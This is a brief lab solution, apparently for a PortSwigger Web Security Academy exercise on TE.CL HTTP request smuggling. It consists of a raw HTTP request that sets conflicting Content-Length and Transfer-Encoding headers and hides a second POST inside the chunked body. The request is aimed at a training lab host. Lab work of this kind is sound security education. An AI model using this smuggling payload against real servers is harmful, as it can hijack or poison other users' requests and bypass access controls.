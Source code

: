 # Lab

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

## Solution

```http
POST / HTTP/1.1
Host: 0ae7001f03dde4e58095dff100b100bf.web-security-academy.net
Cookie: session=sAVd6QEIAHNXIxchCsOlvkn5vmFvUqf0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Connection: close

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```